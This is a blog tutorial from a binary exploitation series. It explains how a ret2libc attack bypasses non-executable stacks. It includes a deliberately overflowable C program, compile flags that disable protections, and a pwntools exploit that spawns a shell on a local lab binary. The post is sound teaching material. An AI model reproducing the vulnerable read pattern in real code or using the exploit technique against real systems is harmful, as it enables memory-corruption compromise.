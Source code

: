 ```yaml
---
title: "Pwn 0x02: NX Bypass"
author: "Signore"
date: 2022-08-22
summary: "Stack is not allowing code execution? Let's bypass it"
description: ""
categories: [""]
tags: ["pwn", "buffer overflow", "ret2libc"]
series: ["Binary Exploitation Adventures"]
keywords: ["pwn", "binary", "memory", "x32", "x64", "gdb", "memory corruption", "binary exploitation", "exploit development", "ret2libc", "return2libc", "ret2system"]
ShowToc: true
cover:
  image: "images/cover-binexp-02.png"
  caption: "cover"

---
```


In this post we are going to learn an exploit mitigation technique: what it is and how to bypass it.

New to the series? check out my previous posts [here](/blog/series/binary-exploitation-adventures).

## No Execute

Last time, we put shellcode on the stack and called it to get code execution. <br>
In modern binaries, usually what happens is that the stack is not executable, means we can put something on the stack but it will only be considered a piece of data by the program and not some cpu instruction. This technique is called **NX** (No eXecute) or **DEP** (Data Execution Prevention).

Although the data on the stack is not executable, making a function call and passing required/desired arguments is still allowed. We're going to make use of this fact.

When we are writing code for a program, we don't write code for `print` and such functions. They are said to be built-ins. When we compile the program, the compiler links the program to a library (shared object) in which it would be able to find definitions of those functions during execution. <br>
Such programs are termed as Dynamically Linked which we mostly deal with, while on the contrary are Statically Linked programs which we won't discuss right now.

Most of the C programs - whether it's x86 or x64 - rely on **libc**, the default C library.
<details><summary>We can see the shared objects (libraries) being used by a program, with the <code>ldd</code> command</summary>

{{< terminal title="Terminal" >}}
![](img00.png)
{{< /terminal >}}
</details><br>

Since during the program execution, the program is making use of library functions, so the library (libc) is mapped in memory. We can abuse this by finding memory addresses and making calls to other functions present in the library as per our need. <br>
`print`, `write`, `system`, `exit`, etc are some of the functions present in the libc out of which, for now, we are most interested in `system`. <br>
This technique is called **return2libc**, ret2libc or ret2system.

### Setup

Using the code from previous exercise:
{{< terminal title="vulnerable.c" >}}
```c
#include <stdio.h>
#include <unistd.h>

int overflow(){
    char buffer[500];
    int userinput;
    userinput = read(0, buffer, 700);
    printf("\nUser provided %d bytes. Buffer content is: %s\n", userinput, buffer);
    return 0; 
}

int main(int argc, char *argv[]){
    overflow();
    return 0;
}
```
{{< /terminal >}}

Compile with the command:
{{< terminal title="Terminal" >}}
```shell
gcc -m32 -fno-stack-protector vulnerable.c -o vulnerable
```
{{< /terminal >}}

Notice that we are not using the `-z execstack` flag anymore, which makes the stack executable.

Our program has following protections:
{{< terminal title="Terminal" >}}
![](img01.png)
{{< /terminal >}}

Before proceeding any further, remember to disable ASLR.

## Exploitation

We find the offset of EIP to be 516. You know how, right?

We want to execute `system("/bin/sh")` for which we are going to overwrite the EIP with the address of the `system` function, and then we'll give the return address which can be anything (e.g JUNK) but we will keep it to be the address of the `exit` function so that our program terminates nicely. Lastly, we will give the function arguments which, in present case, would be the address of the `/bin/sh` string. <br>
Remember stack alignment? revise [here](/blog/posts/pwn-0x01-buffer-overflow/#the-stack)

<details><summary>With the <code>vmmap</code> command in gdb, we can confirm that the libc/certain sections of libc are loaded into the program</summary>

{{< terminal title="Terminal" >}}
![](img02.png)
{{< /terminal >}}
</details><br>

Let's get our required memory addresses with gdb:
{{< terminal title="Terminal" >}}
![](img03.png)
{{< /terminal >}}

Now that we have all we needed, let's construct our exploit:
{{< terminal title="exploit.py" >}}
```py
from pwn import *

exe = "./vulnerable"
elf = context.binary = ELF(exe,checksec=False)

system_addr = 0xf7dff040
exit_addr = 0xf7df1990
binsh_addr = 0xf7f46338

padding = "A"*516

payload = flat(padding, system_addr, exit_addr, binsh_addr)

#write("payload",payload)
io = process(exe)
io.sendline(payload)
io.interactive()
```
{{< /terminal >}}

Let's run the exploit:
{{< terminal title="Terminal" >}}
![](img04.png)
{{< /terminal >}}
And.. Yea! we got our shell :fire:
